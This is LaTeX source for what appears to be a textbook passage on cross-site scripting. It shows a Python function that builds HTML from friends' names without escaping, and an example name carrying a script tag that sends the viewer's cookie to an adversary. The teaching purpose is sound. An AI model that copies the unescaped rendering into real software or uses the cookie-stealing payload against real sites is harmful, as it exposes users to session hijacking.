 \documentclass[
  letterpaper,
]{scrbook}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.40,0.45,0.13}{#1}}
\newcommand{\BuiltInTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{\textbf{#1}}}
\newcommand{\DataTypeTok}[1]{\textcolor[rgb]{0.68,0.00,0.00}{#1}}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.28,0.35,0.67}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.37,0.37,0.37}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.13,0.47,0.30}{#1}}
\theoremstyle{definition}
\theoremstyle{plain}
\theoremstyle{plain}
\theoremstyle{remark}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{def}\NormalTok{ render\_friends(friends: List[}\BuiltInTok{str}\NormalTok{]):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"\textless{}h3\textgreater{}Friends\textless{}/h3\textgreater{}"}\NormalTok{)}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"\textless{}ul\textgreater{}"}\NormalTok{)}
    \ControlFlowTok{for}\NormalTok{ name }\KeywordTok{in}\NormalTok{ friends:}
        \BuiltInTok{print}\NormalTok{(}\StringTok{"\textless{}li\textgreater{}"} \OperatorTok{+}\NormalTok{ name }\OperatorTok{+} \StringTok{"\textless{}/li\textgreater{}"}\NormalTok{)}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"\textless{}/ul\textgreater{}"}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

If a friend's name is something expected, like ``Alice'' or ``Bob'',
this works fine. However, what if a friends sets their name to something
like
\texttt{\textless{}script\textgreater{}send\_to\_adversary(document.cookie)\textless{}/script\textgreater{}}?
Now, the rendered HTML will look something like the following:

\begin{Shaded}
\begin{Highlighting}[]
\DataTypeTok{\textless{}}\KeywordTok{h3}\DataTypeTok{\textgreater{}}\NormalTok{Friends}\DataTypeTok{\textless{}/}\KeywordTok{h3}\DataTypeTok{\textgreater{}}
\DataTypeTok{\textless{}}\KeywordTok{ul}\DataTypeTok{\textgreater{}}
    \DataTypeTok{\textless{}}\KeywordTok{li}\DataTypeTok{\textgreater{}}\NormalTok{Alice}\DataTypeTok{\textless{}/}\KeywordTok{li}\DataTypeTok{\textgreater{}}
    \DataTypeTok{\textless{}}\KeywordTok{li}\DataTypeTok{\textgreater{}}\NormalTok{Bob}\DataTypeTok{\textless{}/}\KeywordTok{li}\DataTypeTok{\textgreater{}}
    \DataTypeTok{\textless{}}\KeywordTok{li}\DataTypeTok{\textgreater{}\textless{}}\KeywordTok{script}\DataTypeTok{\textgreater{}}
        \FunctionTok{send\_to\_adversary}\NormalTok{(}\BuiltInTok{document}\OperatorTok{.}\AttributeTok{cookie}\NormalTok{)}
    \DataTypeTok{\textless{}/}\KeywordTok{script}\DataTypeTok{\textgreater{}\textless{}/}\KeywordTok{li}\DataTypeTok{\textgreater{}}
\DataTypeTok{\textless{}/}\KeywordTok{ul}\DataTypeTok{\textgreater{}}
\end{Highlighting}
\end{Shaded}

This \texttt{script} tag runs the contained Javascript code in the
viewer's browser. Anyone who views a friends list with this adversary in
it, then, will have their authentication cookie sent to the adversary,
potentially allowing the adversary to log in as that user.
\end{document}
